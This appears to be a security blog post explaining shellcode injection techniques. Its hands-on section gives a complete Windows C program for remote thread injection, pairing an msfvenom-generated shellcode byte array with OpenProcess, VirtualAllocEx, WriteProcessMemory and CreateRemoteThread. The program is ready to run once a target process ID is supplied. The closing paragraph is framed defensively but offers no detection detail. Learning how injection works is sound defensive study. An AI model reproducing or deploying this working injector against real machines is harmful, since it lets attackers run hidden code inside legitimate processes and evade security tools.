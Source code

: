 ```yaml
---
title: Shellcode Injection
date: 2024-03-02
categories:
  - malware
  - execution
tags:
  - english
toc: "true"
---
```

Shellcode is a snippet of machine code typically written in assembly language. It's designed to perform a specific task when executed, often granting the attacker control over the compromised system. 

Shellcode injection involves the insertion and execution of such malicious code within the memory space of a target process, bypassing traditional security measures.

# Techniques for Shellcode Injection

## 1. Process Injection:

   - **Remote Thread Injection**: This technique involves creating a remote thread in the target process and directing it to execute the shellcode.
   - **Process Hollowing**: In process hollowing, a legitimate process is spawned in a suspended state, its memory contents replaced with the attacker's shellcode, and then resumed to execute the malicious code.

## 2. Code Cave Injection:

   - **Code Cave**: A code cave refers to an unused or padding section of executable memory within a process. Attackers exploit these code caves to inject and execute their shellcode, often evading detection.
   - **Return-Oriented Programming (ROP)**: ROP chains leverage existing code fragments within a process, known as gadgets, to perform malicious operations. Attackers construct a sequence of gadgets that ultimately lead to the execution of the injected shellcode.

In this blog post we will cover the **Remote Thread Injection**. 

# Hands-On: Shellcode Injection with C Code Snippet 
## Understanding Shellcode Injection Process

Before delving into the code snippet, let's understand the purpose of each function used in the shellcode injection process and its significance within the attack:

1. **Opening the Target Process**: Use [`OpenProcess`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess) to open a handle to the target process identified by its process ID.
    
2. **Memory Allocation**: Use [`VirtualAllocEx`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex) to allocate memory within the address space of the target process.
    
3. **Shellcode Injection**: Use [`WriteProcessMemory`](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) to write the shellcode to the allocated memory within the target process.
    
4. **Remote Thread Creation**: Use [`CreateRemoteThread`](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread) to create a remote thread in the target process, specifying the entry point as the allocated memory containing the shellcode.
    
5. **Cleanup**: Close handles and release allocated memory after the execution of the remote thread.


``` c
#include <windows.h>
#include <stdio.h>

//msfvenom -a x86 --platform windows -p windows/exec CMD="cmd.exe" EXITFUNC=thread -f c
unsigned char shellcode[] = 
"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00\x00\x50\x68\x31\x8b\x6f"
"\x87\xff\xd5\xbb\xe0\x1d\x2a\x0a\x68\xa6\x95\xbd\x9d\xff\xd5"
"\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
"\x00\x53\xff\xd5\x63\x6d\x64\x2e\x65\x78\x65\x00";


int main()
{
    // Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, <TARGET_PROCESS_ID>); // Replace <TARGET_PROCESS_ID> with the process ID of the target process
    if (hProcess == NULL) {
        printf("Failed to open target process. Error code: %d\n", GetLastError());
        return 1;
    }

    // Allocate memory within the target process
    LPVOID pAllocatedMemory = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (pAllocatedMemory == NULL) {
        printf("Failed to allocate memory in target process. Error code: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }

    // Write the shellcode to the allocated memory in the target process
    if (!WriteProcessMemory(hProcess, pAllocatedMemory, shellcode, sizeof(shellcode), NULL)) {
        printf("Failed to write shellcode to target process. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Create a remote thread in the target process to execute the shellcode
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pAllocatedMemory, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("Failed to create remote thread. Error code: %d\n", GetLastError());
        VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Wait for the remote thread to terminate
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    CloseHandle(hThread);
    VirtualFreeEx(hProcess, pAllocatedMemory, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    return 0;
}

```


Remember to collect the desired PID of the process you want to inject the shellcode to and change it for the `<TARGET_PROCESS_ID>` variable in the OpenProcess() function call. 
# Conclusion

Shellcode injection represents a formidable challenge in the realm of cybersecurity, enabling attackers to covertly execute malicious code within legitimate processes. Understanding the intricacies of shellcode injection, along with implementing robust detection and mitigation strategies, is essential for organizations to defend against this stealthy threat. By staying vigilant and adopting a multi-layered security approach, organizations can bolster their defenses and mitigate the risks posed by shellcode injection in today's dynamic threat landscape. Explore more insights into cybersecurity challenges and solutions in our ongoing series.